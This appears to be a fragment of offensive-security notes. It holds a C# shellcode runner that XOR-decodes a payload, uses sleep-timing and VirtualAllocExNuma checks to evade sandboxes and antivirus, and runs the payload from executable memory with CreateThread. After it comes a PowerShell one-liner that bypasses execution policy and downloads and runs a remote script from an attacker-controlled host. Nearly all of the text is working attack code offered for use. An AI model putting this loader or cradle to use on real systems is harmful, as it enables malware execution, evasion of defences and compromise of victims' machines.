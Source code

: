 ```csharp
byte[] dec = new byte[buf.Length];

for (int i = 0; i < buf.Length; i++)

{

dec[i] = (byte)((uint)buf[i] ^ 0xbc);

}

DateTime t1 = DateTime.Now;

Sleep(2000);

double t2 = DateTime.Now.Subtract(t1).TotalSeconds;

if (t2 < 1.5)

{

return;

}

IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);

if (mem == null)

{

return;

}

IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

Marshal.Copy(dec, 0, addr, dec.Length);

IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr,IntPtr.Zero, 0, IntPtr.Zero);

WaitForSingleObject(hThread, 0xFFFFFFFF);

}

</script>
```

### Code Execution
#### CMD
```powershell
powershell -exec bypass iex (new-object net.webclient).downloadstring('http://192.168.x.y/run.txt')
```
